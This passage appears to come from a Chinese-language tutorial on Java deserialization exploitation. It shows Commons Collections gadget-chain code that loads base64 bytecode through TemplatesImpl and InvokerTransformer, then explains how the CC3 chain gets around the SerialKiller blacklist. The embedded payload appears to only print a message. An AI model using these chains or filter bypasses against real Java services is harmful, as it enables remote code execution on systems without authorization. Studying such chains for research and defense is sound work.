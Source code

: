 ```java
                        "YWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxp"+
                        "bml0PgEAAygpVgEAClNvdXJjZUZpbGUBABdIZWxsb1RlbXBsYXRlc0ltcGwuamF2YQwADgAPBwAb"+
                        "DAAcAB0BABNIZWxsbyBUZW1wbGF0ZXNJbXBsBwAeDAAfACABABJIZWxsb1RlbXBsYXRlc0ltcGwB"+
                        "AEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFj"+
                        "dFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5z"+
                        "bGV0RXhjZXB0aW9uAQAQamF2YS9sYW5nL1N5c3RlbQEAA291dAEAFUxqYXZhL2lvL1ByaW50U3Ry"+
                        "ZWFtOwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5n"+
                        "OylWACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAADAAAAAbEAAAABAAoAAAAGAAEAAAAIAAsA"+
                        "AAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAAAQAKAAAABgABAAAACgALAAAABAABAAwA"+
                        "AQAOAA8AAQAJAAAALQACAAEAAAANKrcAAbIAAhIDtgAEsQAAAAEACgAAAA4AAwAAAA0ABAAOAAwA"+
                        "DwABABAAAAACABE=");
                        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][] {code});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(obj),
                new InvokerTransformer("newTransformer", null, null)
        };
        Transformer transformerChain = new
                ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
        outerMap.put("test", "xxxx");
    }
}
```

我们了解到了CC1可以通过InvokerTransformer执行任意方法，所以这里可以通过InvokerTransformer利用TemplatesImpl加载字节码实现任意代码执行。

### 为什么需要CC3

* 2015年初，@frohoff和@gebl发布了<a src=https://frohoff.github.io/appseccali-marshalling-pickles/>Talk《Marshalling Pickles: how deserializing objects will ruin your day》</a>，以及Java反序列化利⽤⼯具ysoserial，随后引爆了安全界。开发者们⾃然会去找寻⼀种安 全的过滤⽅法，于是类似<a href=https://github.com/ikkisoft/SerialKiller>SerialKiller</a>这样的⼯具随之诞⽣。
* SerialKiller是⼀个Java反序列化过滤器，可以通过⿊名单与⽩名单的⽅式来限制反序列化时允许通过的类，在其发布的第⼀个版本代码中，其就限制了InvokerTransformer类
* CC3没有使用InvokerTransformer类，而是通过`com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter`的构造方法（调用了(TransformerImpl)templates.newTransformer()）加载任意字节码，又通过`org.apache.commons.collections.functors.InstantiateTransformer`类调用前一个类的构造方法
